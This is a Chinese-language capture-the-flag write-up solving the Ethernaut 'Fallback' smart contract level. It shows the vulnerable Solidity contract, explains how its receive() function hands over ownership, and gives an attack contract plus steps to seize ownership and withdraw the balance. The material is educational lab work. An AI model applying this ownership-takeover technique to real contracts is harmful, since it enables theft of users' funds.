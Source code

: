 # 1.Fallback

## 题目描述

![img](/assets/PeiQi-Wiki/img/1644591344102-d0b820ba-3170-409d-af68-40ae27bb1031.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

注意两个部分

```javascript
// 记录用户地址对合约的贡献量，当用户当前的贡献值大于 owner(定义为1000)，获得 owner权限
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
// fallback函数，当使用 send() 方法发送数据给合约时总会调用该方法
// 定义参考文章：https://me.tryblockchain.org/blockchain-solidity-fallback.html
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

思路如下

![img](/assets/PeiQi-Wiki/img/1644969666406-324e6b41-6977-457b-b7c2-0c74857ae95f.png)

攻击合约部署

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./debug.sol";

contract Attack is Fallback {

  address payable addr = 0x67C2b4b52c4246BB32C200B475062e7882DB265D;
  Fallback att = Fallback(addr);

  function obtain_owner() public payable {
   payable(addr).send(msg.value);
  }
}
```

调用 contribute方法发送 1 wei

![img](/assets/PeiQi-Wiki/img/1644969951341-1a29afd1-0013-4272-b5b6-2c4002275ba6.png)

使用 send() 方法发送 1 wei， 触发 fallback

![img](/assets/PeiQi-Wiki/img/1644970037101-55252b1b-ea70-4343-909e-e1b0ed484f44.png)

调用后查看 owner权限，已经成功获取

![img](/assets/PeiQi-Wiki/img/1644970116976-700eca53-d7fb-4fd3-bfe5-a1ab7cf20e41.png)

最后调用 withdraw方法  完成关卡